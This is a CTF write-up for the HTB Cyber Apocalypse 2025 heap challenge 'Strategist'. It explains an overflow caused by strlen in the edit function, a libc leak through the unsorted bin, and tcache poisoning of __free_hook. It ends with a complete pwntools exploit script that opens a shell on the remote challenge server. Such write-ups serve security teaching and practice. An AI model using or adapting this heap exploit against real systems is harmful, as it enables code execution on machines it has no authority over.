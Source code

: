 ```yaml
---
title: Strategist
date: 2025-03-26T0:00:19+03:00
description: Writeup for Strategist [HTB Cyber Apocalypse 2025]
type: writeup
author: PineBel
tags:
- pwn 
- heap
draft: false
---
```


## Challenge description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Intuition

It looks like a classic heap challenge. We can control the size of malloc and write to that chunk. We can also remove (free) that chunk and edit its contents. We also get the libc version which is: `glibc 2.27`. 
I used `patchelf` to modify my binary to have the correct libc and ld.

**Vulnerability**: When editing a chunk, the edit function computes the length with strlen, which means that we can overwrite the size field of the next chunk if we make the current chunk full.

```C
    __nbytes = strlen((char *)mem_ptr[input_idx]);
    read(0,(void *)mem_ptr[input_idx],__nbytes);
```

Example (allocate two chunks of 24, fill the first one up):
```
                                    0x0000000000000021	........!....... <--- first chunk
0x555555a01670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555555a01680	0x0a61616161616161	0x0000000000000021	aaaaaaa.!....... <--- second chunk
0x555555a01690	0x0000000a42424242	0x0000000000000000	BBBB............
0x555555a016a0	0x0000000000000000	0x0000000000020961	........a.......	 <-- Top chunk
```

Now if we edit the first chunk, strlen() will also include the second chunks size, so we can overwrite the size if we want.

So the strategy for this challenge would be to leak a libc address and do tcache poisoning to the \_\_free\_hook (since we have 2.27 we can do that) 
## Solution

#### Leaking libc

1. Create a chunk that gets in the Unsorted bin (bc it has fwd ptr and bck ptr towards the main arena).
2. Guard the Unsorted bin chunk with a smaller chunk to prevent merging with the top.


After we allocate a large chuck and a smaller chunk + free the large chunk + allocate large again to get leak:
```
0x555574953660	0x0000000000000000	0x0000000000000431	........1.......
0x555574953670	0x00007ab6a23ebc61	0x00007ab6a23ebca0	a.>..z....>..z..
0x555574953680	0x0000000000000000	0x0000000000000000	................
```


So after the leak it's just a simple tcache poisoning.
Steps for tcache poisoning:

1. Allocate three chunks that will fit in the tcache.

```
0x55555d52e660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d52e670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d52e690	0x6161616161616161	0x0000000000000031	aaaaaaaa1....... <--- C2
0x55555d52e6a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x55555d52e6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x55555d52e6d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d52e6f0	0x6363636363636363
```

2. Use edit vuln to overwrite C2 size. This will allow us to overwrite C3 later.

```
0x555567480660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x555567480670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555567480690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 (NEW SIZE)
0x5555674806a0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x5555674806c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x5555674806d0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x5555674806f0	0x6363636363636363
```

3. Free C2 and C3 

```
                                    0x0000000000000031	........1....... <--- C1
0x555582d1f670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x555582d1f690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2 
0x555582d1f6a0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x60][0/1]
0x555582d1f6b0	0x6262626262626262	0x6262626262626262	bbbbbbbbbbbbbbbb
0x555582d1f6c0	0x6262626262626262	0x0000000000000031	bbbbbbbb1....... <--- C3
0x555582d1f6d0	0x0000000000000000	0x0000555582d1f010	............UU..	 <-- tcachebins[0x30][0/1]
0x555582d1f6e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x555582d1f6f0	0x6363636363636363
```

4. Allocate a chunk that fits in the 0x60 chunk size => we can overwrite C3 with the free hook

```
0x55555d4f7660	0x0000000000000000	0x0000000000000031	........1....... <--- C1
0x55555d4f7670	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7680	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x55555d4f7690	0x6161616161616161	0x0000000000000061	aaaaaaaaa....... <--- C2
0x55555d4f76a0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76b0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76c0	0x6363636363636363	0x3434343434343434	cccccccc44444444 <--- C3 overwritten  (6d0 -> __free_hook ptr)
0x55555d4f76d0	0x00007f2d071ed8e8	0x000055555d4f7010	....-....pO]UU..	 <-- tcachebins[0x30][0/1]
0x55555d4f76e0	0x6363636363636363	0x6363636363636363	cccccccccccccccc
0x55555d4f76f0	0x6363636363636363

tcachebins
0x30 [  1]: 0x55555d4f76d0 —▸ 0x7f2d071ed8e8 (__free_hook) 
```

5. Allocate a chunk that will contain the args for system.
6. Allocate a chunk with a ptr to sytem.

```
x/1xg &__free_hook
0x78ed30ded8e8 <__free_hook>:	0x000078ed30a4f550
pwndbg> x 0x000078ed30a4f550
0x78ed30a4f550 <system>:	0xfa66e90b74ff8548
```

7. Call free on the chunk that has /bin/sh


Solve:
```py
from pwn import *
import time

#context.binary = bin = ELF("./strategist")
libc   = ELF('./libc.so.6')
ld = ELF('./ld-linux-x86-64.so.2')
#target = process([ld.path,bin.path],env={"LD_PRELOAD":libc.path})
target = remote("94.237.61.57",45450)


def allocate(size, p):
    target.sendlineafter(b'> ', b'1')
    target.sendlineafter(b'> ', str(size).encode())
    target.sendafter(b'> ', p)

def free(idx):
     target.sendlineafter(b'> ', b'4')
     target.sendlineafter(b'> ', str(idx).encode())

def show(idx):
    target.sendlineafter(b'> ', b'2')
    target.sendlineafter(b'> ', str(idx).encode())
    target.recvuntil(f'Plan [{idx}]: ')
    return target.recvline()[:-1]

def edit(idx,p):
    target.sendlineafter(b'> ', b'3')
    target.sendlineafter(b'> ', str(idx).encode())
    target.sendafter(b'> ', p)


allocate(0x420,b"a") # put in unsorted bin because it has 2 ptrs that we will leak 
allocate(0x100,b"b") # put tcache so that we don't merge with top chunk when we free

free(0)
free(1)

allocate(0x420,b"a") # this is the chunk with leak
leak = u64(show(0).ljust(8,b'\x00'))
leak = leak - 0x3ebc61
libc.address = leak
print(f"Leak:{leak:#010x}")
#print(hex(libc.sym.__free_hook))
free(0)


### Tcache poisoning

tcache_size = 0x28

allocate(tcache_size, tcache_size*b"a") # full chunk => leads to overflow
allocate(tcache_size, tcache_size*b"b") 
allocate(tcache_size, tcache_size*b"c")


edit(0,tcache_size*b"a"+p8(0x61)) # edit chunk so that we overwrite chunk size 
free(1)
free(2)

allocate(0x50,tcache_size*b"c"+b"4"*8+p64(libc.sym.__free_hook)) # this chunk will go into the one that overflows the second one (fwd_ptr), the second size actually doesn't matters (the 4)

allocate(tcache_size, b"/bin/sh\x00"+p64(0x0)) # prepare arg for system
allocate(tcache_size, p64(libc.sym.system)) # write system in free hook
#gdb.attach(target)
#pause()

print(show(2))
free(2) # call system with /bin/sh arg
target.interactive()
```




